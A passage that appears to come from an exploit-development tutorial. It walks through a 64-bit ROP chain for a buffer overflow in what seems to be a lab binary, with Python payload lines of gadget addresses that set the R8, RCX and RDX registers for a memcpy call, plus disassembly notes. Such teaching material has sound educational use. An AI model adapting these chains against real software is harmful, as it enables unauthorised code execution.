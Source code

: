 ```python
#r8 gadget setup
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;  <-- this is what will go into RSI
payload += struct.pack("<Q", 0x444444444)  # junk
payload += struct.pack("<Q", 0x444444444)  # junk

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001240)  # xor r8d, r8d; mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 0x1000 on stack
payload += struct.pack("<Q", 0x14000199b)  # js 0x19f8; pop rsi; ret; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001DDA)  # see below for this one

"""
0000000140001DDA | 44:8B00                  | mov r8d,dword ptr ds:[rax]           | rax:EntryPoint
0000000140001DDD | 45:85C0                  | test r8d,r8d                         |
0000000140001DE0 | 74 0D                    | je overflow.140001DEF                |
0000000140001DE2 | 48:8B50 10               | mov rdx,qword ptr ds:[rax+10]        | rdx:EntryPoint
0000000140001DE6 | 48:8B48 08               | mov rcx,qword ptr ds:[rax+8]         |
0000000140001DEA | 49:89F9                  | mov r9,rdi                           | r9:EntryPoint
0000000140001DED | FFD6                     | call rsi                             |
"""

#R8 should now be set to 0x90
```

***Setting the Memcpy - RCX Register***
-

This one isn't too cumbersome.  Below is the combination of ROP gadgets I came up with for setting RCX:

```python
#Gadget route for rcx
#====================
payload += struct.pack("<Q", 0x14000276f)  # xor ecx, ecx; mov rax, r9; ret; 
payload += struct.pack("<Q", 0x1400027a0)  # add ecx, ebx; mov rax, r9; ret; 
# RCX should now hold the dest address
#######################################################
```

***Setting the Memcpy - RDX Register***
-

The last register!  So, `memcpy` only requires setting three registers which is quite nice because finding ROP gadgets can be a bit labor intensive depending on the register that needs a value set!  One less register...yeah I'll take it!  Here's the code:

```python
#Gadget route for RDX
#######################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x5FFB01)     # 0x5FFBE0 (will have 200 added from edx)
payload += struct.pack("<Q", 0x1400025a6)  # add edx, eax; cmp dword ptr [rdx], 0x4550; je 0x25b8; ret; 
#RDX should now be set
```
